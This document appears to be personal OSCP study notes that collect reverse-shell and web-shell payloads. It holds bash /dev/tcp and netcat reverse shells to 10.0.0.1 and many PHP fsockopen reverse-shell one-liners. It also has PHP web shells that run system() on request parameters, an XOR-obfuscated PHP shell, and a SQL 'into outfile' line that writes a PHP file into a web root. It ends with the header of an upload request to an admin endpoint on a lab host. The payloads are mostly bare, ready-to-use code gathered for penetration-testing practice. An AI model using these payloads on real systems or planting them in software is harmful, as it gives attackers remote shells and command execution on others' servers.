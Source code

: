 ### 26082023Sat

[OSCP - How to Take Effective Notes](https://youtu.be/yYmDQY1zKKE?list=PLDrNMcTNhhYqZU1ySROli7Oc08mxe1tZR)

https://www.youtube.com/@c0nd4

```
/bin/cat cat
```

```
#!/bin/bash
bash -i >& /dev/tcp/10.0.0.1/53 0>&1
```

[Reverse Shell Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### Bash

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

### Netcat OpenBsd

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

### [PHP](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php)

```
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

```
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

```
'<?php phpinfo(); ?>' into outfile 'C:\\xampp\\htdocs\\try.php'
```

```
<?php if(isset($_REQUEST['cmd'])){echo "<pre>";$cmd = ($_REQUEST['cmd']);system($cmd);echo "</pre>";die;}?>
```

```
<?php system($_GET["cmd"]);?>
```

```
<?php
	system($_GET['cmd']);
?>
```

```
<?php
	system($_GET[0]);
?>
```

```
<?php echo "<pre>"; $cmd=($_REQUEST['cmd']); system($cmd); ?>
```

XOR encode

```
<?=$_='{';$_=($_^'<').($_^'>;').($_^'/');${'_'.$_}['_'](${'_'.$_}['__']);?>
```

POST /management/admin/examQuestion/create HTTP/1.1 Host: 192.168.213.13 Accept-Encoding: gzip, deflate Content-Type: multipart/form-data; boundary=---------------------------183813756938980137172117669544 Content-Length: 1333 Connection: close Cache-Control: max-age=0 Upgrade-Insecure-Requests: 1